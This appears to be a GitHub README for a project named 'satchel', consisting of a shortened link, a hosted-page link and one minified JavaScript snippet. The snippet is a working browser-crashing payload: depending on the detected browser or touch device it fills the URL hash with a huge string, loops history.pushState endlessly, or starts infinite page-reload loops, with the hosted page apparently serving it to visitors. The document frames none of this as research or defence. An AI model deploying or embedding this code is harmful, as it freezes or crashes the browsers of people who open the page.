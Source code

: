 # satchel

https://tinyurl.com/3s4s6swm

https://mwvd-alt.github.io/satchel/


```javascript
function s(){window.onload=()=>location.hash="M"+"\x01".repeat(33554432)+"m"}var m=s,a=()=>{for(var e=0;e<10;e++)setTimeout(function(){for(;;)location.reload(1)},1e3)},p=()=>{for(location.hash="M"+"\x01".repeat(524288)+"m";;)history.pushState({},"")},C=()=>{var e=window.matchMedia||window.msMatchMedia;return!!e&&e("(pointer:coarse)").matches},D=e=>navigator.userAgent.toLowerCase().indexOf(e)>-1;C()?m():D("chrome/")?p():D("safari/")>-1?s():a();
```
